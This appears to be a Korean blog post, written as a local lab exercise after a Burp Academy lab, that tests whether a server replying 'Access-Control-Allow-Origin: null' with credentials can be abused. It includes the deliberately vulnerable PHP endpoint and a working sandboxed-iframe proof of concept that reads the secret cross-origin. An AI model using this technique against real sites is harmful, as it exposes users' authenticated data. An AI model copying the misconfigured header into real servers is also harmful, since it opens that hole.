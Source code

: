 ```yaml
---
layout: post
title: "Access-Control-Allow-Origin 헤더가 null인 경우 악용가능한지 확인해봤다."
categories: [웹보안, CORS]
tags: [웹보안, CORS, Access-Control-Allow-Origin 헤더]
toc: true
last_modified_at: 2023-06-28 14:02:00 +0900
---
```



# 개요
CORS의 Access-Control-Allow-Origin 헤더가 null을 회신해줄 때 크로스도메인을 접근이 가능한 경우가 있는지 확인해본다. 
구체적으로는 [Burp Academy CORS 취약점]({% post_url 2023-06-27-burp-academy-cors %})페이지에 있는 `Whitelisted null origin value` 취약점을 검증해보았다. 

# 취약한 환경 준비 
- 로컬환경에 도메인을 설정해서 moon.jp는 로컬호스트(127.0.0.1)로 DNS응답이 가도록 설정했다. 
- `http://moon.jp/cors/cors_null.php` 에 접근하면 secret을 회신해준다. 
- 서버측 php코드는 다음과 같다. 

```php
<?php
  session_start();
  header('Content-Type: application/json');
  header('Access-Control-Allow-Origin: null');
  header('Access-Control-Allow-Credentials: true');
  echo json_encode(array('secret' => 'oajeroj#239idjfls'));

```

# 테스트1. XHR 로 요청하기 
도메인이 상이한 곳(trap.moon.com)에서 Ajax로 위의 서버URL로 요청을 보낸다. 응답에 접근할 수 있을 것인가?

```html
<!-- http://trap.moon.com/cors/cors_null_trap_xhr.html -->
<body>
    <script>
      var req = new XMLHttpRequest();
      req.open('GET', 'http://moon.jp/cors/cors_null.php');  
      req.onreadystatechange = function() {
        // alert(req.responseText);
        if (req.readyState == 4 && req.status == 200) {
            alert(req.responseText);
          }
        
      };
      req.send();
    </script>
</body>
    
```

결과는 실패였다. 서버가 `Access-Control-Allow-Origin: null`를 회신해주더라도 클라이언트측의 Origin헤더의 값이 http://trap.moon.com로, null값과 상이하므로 브라우저가 거부한다. 

![크로스도메인접근테스트](/images/cors-null-test-1.png)

# 테스트2. iframe의 sandbox 속성을 사용해서 요청하기 
iframe의 sandbox 속성을 사용하면 의도적으로 HTTP 요청에 `Origin: null` 헤더를 추가할 수 있다. 다음 코드를 사용했다. 

```html
<!-- http://trap.moon.com/cors/cors_null_trap_iframe.html -->
<body>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','http://moon.jp/cors/cors_null.php',true);
      req.withCredentials = true;
      req.send();
      
      function reqListener() {
        console.log(this.responseText);
      };
      </script>">
    </iframe>      
</body> 
```

브라우저에서 확인해보면 `Origin: null`헤더가 전송된 것을 확인할 수 있다. 

![Origin: null헤더](/images/cors-null-test-2.png)

console로그를 확인해보면 크로스도메인의 응답에 접근이 가능한 것이 확인된다! 

![크로스도메인 접근 성공](/images/cors-null-test-3.png)

이 것으로 CORS 헤더  `Access-Control-Allow-Origin: null`를 서버가 응답해주는 경우, 의도적으로 `Origin: null`를 발생시키는 테크닉으로 크로스도메인 요청을 가능하게 만들 수 있음(SOP제약을 우회할 수 있음)을 확인했다. 
